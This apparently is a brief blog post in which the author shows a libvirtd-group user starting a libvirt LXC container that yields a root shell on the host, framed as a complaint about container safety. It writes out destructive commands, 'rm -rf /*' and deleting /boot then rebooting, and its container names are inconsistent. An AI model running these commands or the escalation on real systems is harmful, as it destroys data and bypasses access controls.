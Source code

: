 ```yaml
---
layout: post
title: Docker Container Madness
---
```


Preamble:
`
  # apt-get install docker virt-manager
  # export LIBVIRT_DEFAULT_URI=lxc:///
`
Create an unprivileged user:
`
  # useradd -G libvirtd user 
`
Save the following domXML template
`
  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>
`
Import container into Libvirt:
`
  user@host:~$ virsh define container.xml
` 
Start the container:
`
  user@host:~$ virsh start test
  user@host:~$ virsh console test
`
And now run bash shell:
`
  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 
`
Huh? You now have root. What kind of messed up world is this? I can read/write to any file:
`
  root@host:/# rm -rf /*
`
Or alternatively have a bit of fun
`
  root@host:/# rm /boot/*; reboot;
`
Is it possible to be careful with Docker? It doesn't seem safe for mortals.
`
# docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
`
